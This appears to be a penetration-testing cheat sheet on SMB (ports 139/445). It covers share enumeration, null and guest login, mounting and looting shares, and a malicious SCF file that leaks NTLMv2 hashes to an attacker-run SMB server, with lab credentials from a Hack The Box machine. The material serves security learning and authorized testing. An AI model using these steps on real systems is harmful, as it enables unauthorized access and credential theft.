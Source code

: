 # SMB - 139/445

## SMB Information

### Port 139

Standing for Network Basic Input/Output System, NetBIOS is a networking industry standard developed by IBM, Microsoft, and Sytek. It is currently mostly used by Microsoft Windows operating systems to provide certain services to the other network hosts. NetBIOS provides services associated with the OSI model’s session layer, allowing applications on different computers to communicate over the local network. It also allows the proper transmission of data over the network. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one \(the client\) sends a command to “call” another client \(the server\) over **TCP Port 139**. 

Reference:

{% embed url="https://www.bitwarsoft.com/what-is-netbios.html" %}

### Port 445

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. **SMB** stands for ‘**Server Message Blocks**’. Server Message Block in modern language is also known as **Common Internet File System \(cifs\)**. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use the port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.** 

### IPC$ Share

The IPC$ shares and interacts with other services via named pipes. The IPC$ share can contain the following information:

* Operating System 
* Parent Domain
* Local Users and Groups
* Available SMB shares
* Effective System Security Policies



## SMB List Shares <a id="smb-list-shares"></a>

### smbmap <a id="smbmap"></a>

List SMB shares permissions:

```text
smbmap -H 10.10.10.10
```

### smbclient <a id="smbclient"></a>

List SMB shares with smbclient:

```
smbclient -L 10.10.10.10
smbclient -L \\$ip -N --option='client min protocol=NT1'
```

### crackmapexec <a id="crackmapexec"></a>

List SMB shares with crackmapexec:

```text
crackmapexec smb 10.10.10.10 --shares
```

### enum4linux <a id="enum4linux"></a>

List SMB shares with enum4linux:

```text
enum4linux 10.10.10.10
```

## SMB Authentication <a id="smb-authentication"></a>

### smbmap <a id="smbmap-2"></a>

Authenticate to a domain controller SMB share with valid credentials:

```text
smbmap -d domain.name -u username -p password -H 10.10.10.10
smbmap -H 10.10.10.103 -u amanda -p Ashare1972
```

### smbclient <a id="smbclient-2"></a>

Authenticate as null:

```text
smbclient -U '' -L 10.10.10.10
```

Authenticate as the guest user:

```text
smbclient -U 'guest' -L 10.10.10.10
```

Authenticate as valid user \(type password on prompt\):

```text
smbclient -U 'username' -L 10.10.10.10
```

### crackmapexec <a id="crackmapexec-2"></a>

Authenticate as null:

```text
crackmapexec smb 10.10.10.10 --shares -u '' -p ''
```

Authenticate as a valid user with crackmapexec:

```text
crackmapexec smb 10.10.10.10 --shares -u username -p password
```

## SMB Protocol Error Fix <a id="smb-connect-to-share"></a>

Error Code:

```text
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Some servers have an OLD SMBv1 protocol in use, to accept the connection we must specify the minimum protocol version we can accept with:

```text
smbclient //$ip/share -N --option='client min protocol=NT1'
```

You can also add the following to `/etc/samba/smb.conf` under the `[global]` section:

```text
client min protocol = NT1
```

## SMB Capture NTLMv2 with SCF <a id="smb-connect-to-share"></a>

**SCF** \(Shell Command File\) are simple files that can be used to perform a connection to the attacker machine by using the **SMB** protocol. The interesting purpose of that kind of file is that they can perform a small and limited set of operations, but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit from this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim.

Create a shared folder and let it open:

```text
impacket-smbserver share $(pwd) -smb2support
```

1. Create the malicious SCF file

   ```text
   [Shell]
   Command=2
   IconFile=\\10.10.10.11\share\pentestlab.ico
   [Taskbar]
   Command=ToggleDesktop
   ```

2. Copy the malicious file in the desired victim shared resource

Check the shared folder that you have created previously and if there is an interaction between the victim and the file, you will receive the NTLMv2 hash of the victim. You can then try to crack the hash with **john or hashcat.**

## SMB Connect to Share <a id="smb-connect-to-share"></a>

### smbmap <a id="smbmap-3"></a>

Recursively list the share:

```text
smbmap -R ShareName -H 10.10.10.10
```

### smbclient <a id="smbclient-3"></a>

We can connect to share with the following example:

```text
smbclient -L //10.10.10.10/ShareName
```

## SMB Mount Share <a id="smb-mount-share"></a>

Create a directory to mount the share:

```text
sudo mkdir -p /mnt/smb
```

Mount the remote share to your machines/host without credentials:

```text
sudo mount -t cifs //10.10.10.10/ShareName/ /mnt/smb
```

Mount with valid credentials method:

```text
sudo mount -t cifs -o 'user=username,password=pass' //10.10.10.10/sharename$ /mnt/share
sudo mount -t cifs -o username=amanda,password=Ashare1972 "//10.10.10.103/CertEnroll" /mnt
```

Tip, if there are a few files \(not too much\) you might want to copy the files into your localhost:

```text
cp * /home/kali/htb/sizzle/loot/
```

## SMB Password Spray <a id="smb-password-spray"></a>

## SMB Usage Cheatsheet <a id="smb-usage-cheatsheet"></a>

Download all files recursively without prompts:

```text
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

